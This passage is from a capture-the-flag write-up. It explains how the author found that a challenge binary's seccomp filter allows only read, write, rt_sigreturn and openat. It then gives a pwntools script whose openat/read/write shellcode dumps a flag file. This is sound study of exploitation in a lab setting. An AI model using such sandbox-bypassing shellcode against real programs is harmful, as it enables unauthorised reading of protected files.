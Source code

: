 So I look for the `0,1,15` and `257` because of those are the values in the third parameter of the `seccomp_rule_add()` function in the decompile Ghidra. and found:
```
0  read
1  write
15  rt_sigreturn
257  openat
```

So only I can syscall those functions. And this is the reason I couldn't execute the basics shell payloads, because I was not using the valids functions to this file. So to use the `read` and `write` functions to read the file and writing in the `STDOUT` i need first load the file but `open` function is not allowed. So probably I could use `openat` so I seek for information about how it works And from [linux.die.net openat](https://linux.die.net/man/2/openat):

>The `openat()` system call operates in exactly the same way as `open(2)`, except for the differences described in this manual page.
>If the pathname given in pathname is relative, then it is interpreted relative to the directory referred to by the file descriptor dirfd (rather than relative to the current working directory of the calling process, as is done by open(2) for a relative pathname).
>If pathname is relative and dirfd is the special value AT_FDCWD, then pathname is interpreted relative to the current working directory of the calling process (like open(2)).
>**If pathname is absolute, then dirfd is ignored. **

Syntax:
```
int openat(int dirfd, const char *pathname, int flags);
int openat(int dirfd, const char *pathname, int flags, mode_t mode);
```

So it can be used exactly like the `open()` function, and I am gonna use the absolute path so the first parameter `dirfd` will be ignore

```Python
# solve_pumping.py
# ...SNIP...
io = start()


shellcode  = b''
shellcode += asm(shellcraft.openat(0, '/tmp/flag.txt')) ➊
shellcode += asm(shellcraft.read(3, 'rsp', 80)) ➋
shellcode += asm(shellcraft.write(1 , 'rsp', 80)) ➌

print(f"Len shellcode: {len(shellcode)}") ➍

io.sendlineafter(b'kids: ', b'pumpk1ngRulez') ➎
io.sendlineafter(b'>> ', shellcode) ➏

io.interactive()
```

First  I add the assembler representation of the `openat` instruction ➊ (the first parameter will be ignored like i say above, so I virtually could write anything there and nothing different will happen). After that I use the `read()` function ➋. here there is a trick, we dont know the [file descriptor](https://en.wikipedia.org/wiki/File_descriptor)where the file will be load but we can tyr an failure from a lowest file descriptor (because  this is a single process and we know that there is not more file descriptor loaded  So we can try with  `3`). Then write it to the file descritor of the standard output STDOUT (it means `1`) ➌. With that the shellcode is complete. But to ensure that it will not faild due to the size of the shellcode I print the size in ➍ (remember that the `read()` was limited to a `0x95` ,it meas `149 bytes`). And finnally send the password ➎ and send the shellcode ➏.
